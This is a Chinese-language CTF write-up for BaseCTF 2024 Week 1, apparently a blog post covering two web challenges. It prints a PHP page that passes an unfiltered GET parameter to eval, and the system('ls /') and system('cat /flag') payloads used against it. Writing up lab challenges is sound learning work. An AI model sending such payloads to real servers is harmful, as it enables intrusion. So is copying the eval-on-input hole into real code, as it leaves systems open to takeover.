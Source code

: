 ```yaml
---
title: 2024BaseCTF-Week1
date: '2024-08-15 09:57:12'
updated: '2024-09-16 16:45:07'
permalink: /post/2024basectfweek1-und65.html
comments: true
toc: true
---
```


# 2024BaseCTF-Week1

备注：图片图床使用为Github，打不开需要挂梯子！

---

PS：感觉隔壁Moe比较有意思，所以这边就只做了Web和Misc，还只做了一周，见谅

# Web

## [Week1] HTTP 是什么呀

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164718.png)​

稍微需要注意的就是那个Url转义，要进行一次编码才行

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164720.png)​

最终的flag需要看success.php，在网络传输这里可以看到

​![image](https://raw.githubusercontent.com/Wh1teJ0ker/PicGo/main/Pic/20240916164721.png)​

## [Week1] 喵喵喵´•ﻌ•`

```php
<?php
highlight_file(__FILE__);
error_reporting(0);

$a = $_GET['DT'];

eval($a);

?>
```

一个没有任何过滤的命令执行

```php
?DT=system("ls /");
?DT=system("cat /flag");
```
